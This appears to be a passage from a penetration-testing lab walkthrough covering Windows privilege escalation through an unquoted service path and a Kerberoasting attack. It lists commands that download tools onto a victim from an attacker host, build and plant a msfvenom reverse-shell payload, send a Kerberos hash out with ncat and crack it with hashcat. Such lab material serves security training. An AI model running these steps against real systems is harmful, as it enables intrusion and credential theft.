 #### Task 6: Perform Privilege Escalation

WinPEAS identifies misconfigurations for privilege escalation.

- Host **winPEASx64.exe**:
  - `python3 -m http.server`
- Download on victim:
  - wget http://10.10.1.13:8000/winPEASx64.exe -o winpeas.exe
- If vulnerable (Unquoted Service Path):
  - `msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=8888 -f exe > /root/ADtools/file.exe`
- Start listener:
  - `nc -nvlp 8888`
- Replace vulnerable file:
  - `move file.exe file.bak`
  - wget http://10.10.1.13:8000/file.exe
  - `-o file.exe`
- Reboot victim machine to trigger payload.

#### Task 7: Perform Kerberoasting Attack

Kerberoasting extracts service account hashes via Kerberos and cracks them offline.

- In the netcat shell, execute the powershell command to launch PowerShell. Navigate to C:\Users\Public\Downloads and execute the command
  - `cd ../.. ; cd Users\Public\Downloads`
- On victim:
  - wget http://10.10.1.13:8000/Rubeus.exe -o rubeus.exe
  - wget http://10.10.1.13:8000/ncat.exe -o ncat.exe
- Transfer hash with Netcat:
  - `ncat.exe -w 3 10.10.1.13 9999 < hash.txt`
- On attacker:
  - `nc -lvp 9999 > hash.txt`
- Crack with Hashcat:
  - `hashcat -m 13100 --force -a 0 hash.txt /root/ADtools/rockyou.txt`
- If successful, attacker obtains service account passwords (e.g., **DC-Admin**).

---
---

